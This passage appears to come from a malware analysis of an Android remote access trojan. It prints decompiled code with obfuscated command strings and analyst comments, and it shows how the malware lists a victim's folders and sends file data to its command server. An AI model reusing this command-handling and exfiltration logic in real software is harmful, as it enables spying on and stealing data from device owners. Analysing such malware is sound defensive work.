 ```cs
                    this.a.f(this);
                    goto label_5;
                }

                if(!s2.contains(this.a("ZWNkZDJhYWRkZDMzNWUyMGE3YTAxNDUwNTU="))) {  // device_unlock
                    goto label_5;  // device_unlock
                }

                JSONObject jSONObject9 = new JSONObject(s2);
                this.a.e(this, this.b.aO, jSONObject9.getString(this.a("ZWVkOTM3YTE=")));  // fake
                this.a.e(this, this.b.aM, jSONObject9.getString(this.a("ZTBkMTM4YTBkYjM4")));  // hidden
                this.a.e(this, this.b.aN, jSONObject9.getString(this.a("ZWFkNDMzYTdkNTNmNmYzMg==")));  // blocking
                goto label_553;

            catch(Exception unused_ex) {
            }
```


# Data exfiltration

The malware has the ability to exfiltrate the data and sending specific files to the C2 server from the vitim's device. 

```cs
if(s2.contains(this.a("ZTdjODM5YWFlMTMwNmUzOWFkYTkwOQ=="))) {  // open_folder
                    String s3 = new JSONObject(s2).getString(this.a("ZTdjODM5YWFlMTMwNmUzOWFkYTkwOQ=="));  // open_folder
                    if(s3.equals(this.a("ZjY5Nw=="))) {  // ~/
                        s3 = Environment.getExternalStorageDirectory().getAbsolutePath();
                    }

                    String[] arr_s = this.a.b(new File(s3));
                    try {
                        JSONObject jSONObject1 = new JSONObject();
                        jSONObject1.put(this.a("ZWJkNTM4"), this.a("ZTljYTJlYTVjNzA5NjczY2E1YTkwODZjNTgyNjc3Y2JiMGNh"));  // array_files_folder
                                                                                                                          // cmd
                        jSONObject1.put(this.a("ZWNkMTJl"), i.e(s3));  // dir
                        jSONObject1.put(this.a("ZWVkNzMwYTBkYjI0NzI="), i.e(arr_s[0]));  // folders
                        jSONObject1.put(this.a("ZWVkMTMwYTFjZA=="), i.e(arr_s[1]));  // files
                        String s4 = jSONObject1.toString().replace("\\n", "");
                        this.a.a(this.a("YzJlYjEzOGFlMTA1NDQxYjhk"), s4);  // JSON_SEND
                        this.a.i(this, this.b.H + this.a.h(s4));
                        goto label_5;
                    }
                    catch(JSONException unused_ex) {
                    }

                    this.a.a(this.c, this.a("Y2RjYTJlYWJjYzc2NmIyNmE2YTI1YjQxNWYzZDNiYzVhNmQ3OGNjNDk0YjY5NjM0Y2NlYWZlMTEzOTI2MDk0ODMxOGZkNzQ5OThkZQ=="));  // Error json rat jsonRequest open_folder
                    goto label_5;
                }

                if(!s2.contains(this.a("ZmRjODMwYWJkZjMyNjgzYmFkOTMxZDVhNTIyYw=="))) {  // uploadind_file
                    goto label_273;  // uploadind_file
                }

```